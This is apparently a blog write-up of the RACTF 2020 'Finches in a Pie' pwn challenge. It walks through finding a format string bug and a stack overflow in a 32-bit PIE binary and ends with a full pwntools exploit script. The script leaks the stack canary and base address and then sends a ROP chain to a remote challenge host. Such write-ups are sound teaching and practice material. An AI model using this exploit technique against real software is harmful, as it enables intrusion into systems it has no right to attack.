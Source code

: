```yaml
---
title: "RACTF 2020: Finches in a Pie (Pwn)"
layout: post
date: 2020-06-11
tags:
- CTF
- writeup
- RACTF
- 2020
- Pwn
comments: true
---
```


> There's a service at xxx, exploit it to get the flag.
>
> Challenge instance ready at `88.198.219.20:27813`.
>
> [fiap](/files/fiap)

Let's start off by running checksec on the binary.

```
vagrant@ctf:/vagrant/challenges/ractf/Finches in a Pie$ checksec fiap
[*] '/vagrant/challenges/ractf/Finches in a Pie/fiap'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Okay, a X86 ELF file with a canary, NX, PIE and partial RELRO. Let's run it to get a better idea of what we're dealing with.


```
vagrant@ctf:/vagrant/challenges/ractf/Finches in a Pie$ ./fiap
Oh my!

You NAUGHTY CANARY

You ATE MY PIE!

CATCH HIM!

You got him! Thank you!
What's your name?
123
Thank you, 123!
Would you like some cake?
123

```

The program asks for our name, __repeats it back__ to us, and asks if we'd like some cake. Since our name is repeated back to us, there's a chance that there might be a format string vulnerability. So let's test for that.

```
vagrant@ctf:/vagrant/challenges/ractf/Finches in a Pie$ ./fiap
Oh my!

You NAUGHTY CANARY

You ATE MY PIE!

CATCH HIM!

You got him! Thank you!
What's your name?
%p
Thank you, 0xf7feada0!
Would you like some cake?
%p
```

Ah looks like we're right! Since we have a format string vulnerability that we can exploit, we've effectively gotten ourselves a read primitive and write primitive. So the canary and PIE should not pose and issue anymore, since there's a good chance that we can leak the canary value, and an address within the program. While we're at it, let's test if they're performing proper bounds checking for the size of our input.

```
vagrant@ctf:/vagrant/challenges/ractf/Finches in a Pie$ ./fiap
Oh my!

You NAUGHTY CANARY

You ATE MY PIE!

CATCH HIM!

You got him! Thank you!
What's your name?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Thank you, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
Would you like some cake?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
*** stack smashing detected ***: <unknown> terminated
Aborted (core dumped)
```

Omegalul. Looks likes the second input might be vulnerable to a buffer overflow. Okay we've actually got a lot to work with. Before we write our exploit, let's find the offsets of what we need to leak. So let's open up gdb.

```
───────────────────────────────────────────────────────────────────────[ DISASM ]────────────────────────────────────────────────────────────────────────────────────────────────────
 ► 0x565562ee <say_hi+108>    push   eax
   0x565562ef <say_hi+109>    call   printf@plt <0x56556030>

   0x565562f4 <say_hi+114>    add    esp, 0x10
   0x565562f7 <say_hi+117>    lea    eax, [ebp - 0x20]
───────────────────────────────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────────────────────────────────────────────────────────
 ► f 0 565562ee say_hi+108
   f 1 565563d9 main+113
   f 2 f7df5e81 __libc_start_main+241
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> stack 15

00:0000│ esp  0xffffcd44 —▸ 0xf7feada0 ◂— pop    edx
01:0004│      0xffffcd48 —▸ 0xf7e4436b (puts+11) ◂— add    edi, 0x16dc95
02:0008│      0xffffcd4c —▸ 0x5655628f (say_hi+13) ◂— add    ebx, 0x2d71
03:000c│      0xffffcd50 —▸ 0xf7fb2000 ◂— 0x1d4d6c
04:0010│      0xffffcd54 ◂— 0x0
05:0014│      0xffffcd58 ◂— '%p.%p.'
06:0018│      0xffffcd5c ◂— 0x56002e70 /* 'p.' */
07:001c│      0xffffcd60 —▸ 0x56557036 ◂— 'You ATE MY PIE!\n'
08:0020│      0xffffcd64 —▸ 0xf7e9bf86 (setresgid+6) ◂— add    eax, 0x11607a
09:0024│      0xffffcd68 —▸ 0x56559000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x3ef4
0a:0028│      0xffffcd6c ◂— 0xa7b41c00
0b:002c│      0xffffcd70 —▸ 0x56559000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x3ef4
0c:0030│      0xffffcd74 ◂— 0x0
0d:0034│ ebp  0xffffcd78 —▸ 0xffffcd98 ◂— 0x0
0e:0038│      0xffffcd7c —▸ 0x565563d9 (main+113) ◂— mov    eax, 0

pwndbg> canary
AT_RANDOM = 0xffffcfeb # points to (not masked) global canary value
Canary    = 0xa7b41c00
Found valid canaries on the stacks:
00:0000│   0xffffcd6c ◂— 0xa7b41c00
```

Looks like we found the canary, and we've also got the address of `main+113` to work with. Nice!

```
vagrant@ctf:/vagrant/challenges/ractf/Finches in a Pie$ nm fiap | grep flag
00001209 T flag
```

Additionally, we also found a helper function that prints the flag for us. How convenient!

Ok so here's the game plan:

1. First input
  - Leak canary and address of `main+113`

2. Second input
  - Send payload: `<"A" * offset to canary><canary><"A" * additional offset to EIP><ret slide><flag>`

Now let's write a script to exploit this.

```python
#! /usr/bin/python3

from pwn import *

HOST = '88.198.219.20'
PORT = 52692
BINARY = './fiap'

elf = context.binary = ELF(BINARY)

elf.symbols['ret'] = elf.symbols['main'] + 127

CANARY_OFFSET = 25
PAYLOAD_OFFSET = CANARY_OFFSET + 16
FMT_PAYLOAD = '%11$p.%15$p'

splash()

r = remote(HOST, PORT)

with log.progress('Stage 1: Leak canary and (main + 113)'):
    r.recvuntil('What\'s your name?\n')
    r.sendline(FMT_PAYLOAD)
    r.recvuntil('Thank you, ')

    leaked = r.recvline().decode().strip()[:-1]
    canary, main_113 = [int(x, 16) for x in leaked.split('.')]

    log.success(f'Leaked canary: 0x{canary:08x}')
    log.success(f'Leaked (main + 113): 0x{main_113:08x}')

with log.progress('Stage 2: Generate ROP Chain'):
    elf.address = main_113 - (elf.symbols['main'] + 113)
    log.success(f'Calculated ELF base address: 0x{elf.address:08x}')

    rop = ROP(elf)
    rop.raw(p32(elf.symbols['ret']))
    rop.flag()

    log.success('Generated ROP Chain:')
    log.success(rop.dump())

with log.progress('Stage 3: Pwn'):
    r.recvuntil('Would you like some cake?\n')
    r.sendline(flat({ CANARY_OFFSET: p32(canary), PAYLOAD_OFFSET: rop.chain() }))

    log.success(f'Flag: {r.recvline().strip().decode()}')

r.close()
```

Let's see it in action!

<script id="asciicast-338088" src="https://asciinema.org/a/338088.js" async></script>

Flag: `ractf{B4k1ng_4_p1E!}`
